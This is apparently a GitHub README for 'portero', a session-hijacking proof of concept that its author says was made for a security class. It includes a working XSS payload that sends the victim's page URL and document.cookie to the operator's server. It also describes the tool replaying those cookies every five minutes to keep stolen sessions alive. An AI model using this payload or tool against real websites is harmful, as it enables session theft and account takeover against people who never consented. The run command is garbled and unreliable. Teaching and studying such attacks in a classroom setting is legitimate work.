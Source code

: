 # portero
Proof of concept for hijacking sessions for a security class. It keeps the "HTTP session door open".

##Building

This is a Spring Boot project that uses Gradle for builds. To build install gradle and run:

```
gradle build
```
##Running

After the build run the following:

```
java jar ava jar build/libs/portero-x.x.x-SNAPSHOT.jar
```

##Hijack HTTP Session

Exploit a XSS vunerability if cookies are not HTTPOnly getting it to execute the following JavaScript pointed to your portero server.

```
document.createElement("img").src="http://localhost:9000/hijack?url=" + encodeURIComponent(window.location.href) + "&cookies=" + encodeURIComponent(document.cookie)
```

Portero will ping the site with cookies every 5 minutes to keep the HTTP Session alive and provide a detail of the connection information.
